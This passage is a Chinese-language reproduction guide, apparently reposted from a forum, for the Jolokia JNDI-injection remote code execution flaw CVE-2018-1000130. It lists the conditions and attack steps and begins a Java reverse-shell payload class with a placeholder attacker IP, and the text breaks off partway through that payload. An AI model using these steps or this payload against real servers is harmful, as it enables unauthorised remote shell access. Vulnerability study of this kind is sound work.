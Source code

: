 # （CVE-2018-1000130）Jolokia 远程代码执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2993](https://www.zhihuifly.com/t/topic/2993)

# （CVE-2018-1000130）Jolokia 远程代码执行漏洞

## 一、漏洞简介

Jolokia服务的代理模式默认情况下在1.5.0版之前容易受到**JNDI注入**的攻击。当以代理模式部署Jolokia代理时，有权访问Jolokia Web端点的外部攻击者可以通过JNDI注入攻击远程执行任意代码。由于Jolokia库使用用户提供的输入启动LDAP / RMI连接，因此有可能造成这种攻击。

#### 利用条件：

*   目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
*   目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean
*   目标可以请求攻击者的服务器（请求可出外网）
*   实际测试 RMI 注入受目标 JDK 版本影响，jdk < 6u141/7u131/8u121

## 二、漏洞影响

Jolokia < 1.50

## 三、复现过程

#### 漏洞分析

1.  利用 jolokia 调用 createJNDIRealm 创建 JNDIRealm
2.  设置 connectionURL 地址为 RMI Service URL
3.  设置 contextFactory 为 RegistryContextFactory
4.  停止 Realm
5.  启动 Realm 以触发指定 RMI 地址的 JNDI 注入，造成 RCE 漏洞

### 漏洞复现

##### 步骤一：查看已存在的 MBeans

访问 `/jolokia/list` 接口，查看是否存在 `type=MBeanFactory` 和 `createJNDIRealm` 关键词。

##### 步骤二：准备要执行的 Java 代码

需要修改脚本里对应的反弹shell的ip和端口

```
/**
 *  javac -source 1.5 -target 1.5 JNDIObject.java
 *
 *  Build By LandGrey
 * */

import java.io.File;

import java.io.InputStream;

import java.io.OutputStream;

import java.net.Socket; `public class JNDIObject {

static {

try{

String ip = “your-vps-ip”;

```